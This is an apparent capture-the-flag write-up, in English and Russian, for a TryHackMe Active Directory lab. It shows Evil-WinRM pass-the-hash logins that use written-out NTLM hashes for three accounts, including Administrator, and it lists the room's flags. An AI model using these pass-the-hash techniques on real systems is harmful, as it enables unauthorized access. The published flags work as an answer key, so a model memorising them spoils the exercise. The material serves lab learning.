

Using a tool called Evil-WinRM what option will allow us to use a hash?  -    -H

При сработке Evil-WinRM не под учетной записью Administrator, у меня возникала ошибка и я не мог двигаться внутри целевой машины:



Чтобы обойти эту ошибку, я зашел на рабочие столы данных пользователей под учетной записью Administrator и забрал все флаги.



```bash
evil-winrm -i <ip> -u svc-admin -H fc0f1e5359e372aa1f69147375ba6809
```



svc-admin - TryHackMe{K3rb3r0s_Pr3_4uth}



```bash
evil-winrm -i <ip> -u backup -H 19741bde08e135f4b40f1ca9aab45538
```



backup - TryHackMe{B4ckM3UpSc0tty!}



```bash
evil-winrm -i <ip> -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```



Administrator - TryHackMe{4ctiveD1rectoryM4st3r}
